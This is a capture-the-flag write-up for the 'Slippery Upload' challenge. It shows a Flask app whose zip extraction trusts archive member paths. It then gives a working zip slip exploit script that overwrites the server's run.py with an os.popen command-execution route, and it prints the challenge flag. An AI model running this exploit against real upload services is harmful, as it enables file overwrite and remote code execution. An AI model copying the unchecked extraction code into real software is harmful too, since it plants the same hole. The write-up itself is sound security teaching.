


## SLIPPERY UPLOAD  



We are given a webapp that allows us to upload zip files.  

In `/zip_upload`, although there are checks against the zip file name to prevent directory traversal, there isn't any checks against the stored files in the archive itself.  

```python
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return '%s' % open('/app/run.py').read()

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())

@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()
```

We can perform a zip slip attack to get a file write, and overwrite the server source itself.  

To allow for multiple file uploads, we just need to retain most of the server source, and only overwrite the index page to get RCE.  

```python
cmd = "__import__('os').popen('ls').read()"

payload = f"""
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return {cmd}

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())

@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()
""".strip()

filename = 'exploit.zip'

with zipfile.ZipFile(filename, "w") as z:
    z.writestr("../../app/run.py", payload)

with open(filename, 'rb') as f:
    res = requests.post(f'{url}/zip_upload', files={
        'zarchive': (filename, f.read(), 'application/octet-stream')
    })
```

Now, visiting the index page of the website will execute our RCE payload. We can find the flag file in the same directory as the server code, and can read it with another zip slip upload.  



Flag: `247CTF{33cd0604f65815a9375e2da04e1b8610}`